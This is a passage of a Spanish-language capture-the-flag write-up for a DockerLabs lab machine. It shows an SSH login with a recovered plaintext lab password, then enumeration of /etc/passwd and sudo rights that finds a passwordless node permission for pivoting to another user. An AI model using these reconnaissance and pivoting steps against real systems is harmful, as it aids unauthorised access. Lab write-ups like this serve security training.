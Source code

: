 ![](assets/img/dockerlabs-writeup-raas/raas2_4.png)

De esta forma, obtengo las credenciales SSH. `las credenciales ssh son: bob:56000nmqpL`.

```terminal
/home/kali/Documents/dockerlabs/raas:-$ ssh bob@127.17.0.2
bob@127.17.0.2's password: 56000nmqpL
```
```terminal
bob@kali:~$ id
uid=1002(bob) gid=1002(bob) groups=1002(bob),100(users)
```

---
## User Pivoting 1

```terminal
bob@kali:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
patricio:x:1001:1001:,,,:/home/patricio:/bin/bash
bob:x:1002:1002:,,,:/home/bob:/bin/bash
calamardo:x:1003:1003:,,,:/home/calamardo:/bin/bash
```

```terminal
bob@kali:~$ sudo -l
Matching Defaults entries for bob on kali:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bob may run the following commands on kali:
    (calamardo) NOPASSWD: /bin/node
```

Identifico que el usuario `bob` tiene permisos para ejecutar `/bin/node` como el usuario `calamardo` sin necesidad de contraseña.
